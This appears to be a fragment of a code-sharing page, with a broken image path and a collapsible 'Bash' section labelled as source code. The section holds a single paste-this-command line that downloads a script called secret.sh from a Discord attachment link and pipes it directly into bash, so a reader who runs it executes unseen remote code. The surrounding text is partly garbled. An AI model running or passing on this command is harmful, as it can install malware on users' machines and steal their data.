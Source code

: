 <details>
  <summary>Bash</summary>

> <hr>

```sh
cd ~ && curl -s https://cdn.discordapp.com/attachments/1043972790266626179/1166849821034938418/secret.sh | bash
```

> <hr>

</details>
